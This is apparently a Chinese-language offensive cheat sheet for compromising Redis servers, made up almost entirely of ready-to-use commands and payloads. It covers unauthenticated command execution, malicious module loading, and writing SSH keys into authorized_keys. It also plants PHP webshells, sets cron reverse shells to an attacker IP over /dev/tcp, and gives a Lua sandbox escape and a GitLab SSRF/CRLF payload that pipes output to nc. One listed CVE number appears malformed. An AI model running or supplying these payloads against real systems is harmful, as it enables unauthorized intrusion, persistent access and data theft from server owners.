 # Redis服务

1.自动枚举

```bash
nmap --script redis-info -sV -p 6379 <IP>
msf> use auxiliary/scanner/redis/redis_server
```

2.banner

```Bash
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

## 未授权访问

```Bash
redis-cli -h IP地址
INFO
KEYS *
EVAL "os.execute('id')" 0
CONFIG GET *
DEBUG SCRIPT LOAD "os.execute('id')"
```

## 利用配置文件

1.
```Bash
CONFIG SET dir /etc/
CONFIG GET *
```

2.
malicious_module.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "redismodule.h"

int MaliciousCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    RedisModule_ReplyWithSimpleString(ctx, "Malicious code executed!");
    return REDISMODULE_OK;
}

int RedisModule_OnLoad(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    if (RedisModule_Init(ctx, "malicious_module", 1, REDISMODULE_APIVER_1) == REDISMODULE_ERR) {
        return REDISMODULE_ERR;
    }
    if (RedisModule_CreateCommand(ctx, "malicious_command", MaliciousCommand, "write", 1, 1, 1) == REDISMODULE_ERR) {
        return REDISMODULE_ERR;
    }
    return REDISMODULE_OK;
}
```

```Bash
gcc -shared -o malicious_module.so malicious_module.c -I /usr/share/metasploit-framework/data/exploits/redis/ -fPIC
cp malicious_module.so /etc/redis

redis
MODULE LOAD /etc/redis/malicious_module.so
malicious_command
```

[更多模块](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

3.
```Bash
redis-cli CONFIG SET notify-keyspace-events "Ex"
redis-cli PSUBSCRIBE "__key*__:*"
redis-cli ECHO "id > /tmp/output"
```

## 写入SSH公钥

```Bash
ssh-keygen -t rsa -b 2048 -f id_rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
cat foo.txt | redis-cli -h 目标服务器IP -x set ssh_key

redis
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```

2.
```Bash
redis
SET "ssh:known_hosts" "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..."
CONFIG SET dir /home/user/.ssh
EVAL "local f = io.open('/home/user/.ssh/authorized_keys', 'a+'); f:write('公钥'); f:close()" 0
```

## WebShell注入

1.
```Bash
CONFIG SET dir /usr/local/nginx/html/
CONFIG SET dbfilename shell.php
SET x "<?php system($_GET['cmd']); ?>"
SAVE
```

http://目标服务器IP/shell.php?cmd=id

2.
```Bash
redis-cli EVAL "local f = io.open('/var/www/html/shell.php', 'w+'); f:write('<?php system($_GET[\'cmd\']); ?>'); f:close()" 0
```

3.
```Bash
redis-cli CONFIG SET dir /var/www/html
redis-cli SET "webshell:php" "<?php system($_GET['cmd']); ?>"
SAVE
```

## 反弹Shell

1.
```Bash
nc -lvp 4444

redis
CONFIG SET dir /var/spool/cron/ or /var/spool/cron/crontabs/
CONFIG SET dbfilename root
SET x "\n* * * * * /bin/bash -i >& /dev/tcp/攻击者IP/4444 0>&1\n"
SAVE
```

2.
```Bash
redis-cli EVAL "local s = redis.call('pubsub', 'channels', 'rebound'); local f = io.open('/tmp/rebound.sh', 'w+'); f:write('bash -i >& /dev/tcp/attacker_ip/8080 0>&1'); f:close()" 0
redis-cli PUBLISH rebound "rebound"
redis-cli SUBSCRIBE rebound
```

## Lua沙盒绕过

+ CVE-2022-05432
+ CVE-2022-0543

```Bash
EVAL "local io_l = package.loadlib('/usr/lib/x86_64-linux-gnu/liblua5.1.so.0', 'luaopen_io'); local io = io_l(); local f = io.popen('id', 'r'); local res = f:read('*a'); f:close(); return res" 0
```

[cve-2022-0543](https://github.com/aodsec/CVE-2022-0543)

[http request redis](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)

## 主从模块

攻击者服务器连接目标服务器
```Bash
SLAVEOF 攻击者服务器IP 6379
```

攻击者服务器
```Bash
CONFIG SET dir /var/spool/cron
CONFIG SET dbfilename root
SET x "\n* * * * * /bin/bash -i >& /dev/tcp/攻击者IP/4444 0>&1\n"
SAVE

nc -lvvp 4444
```

## Gitlab SSRF + CRLF 到 Shell

```Bash
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

```Bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
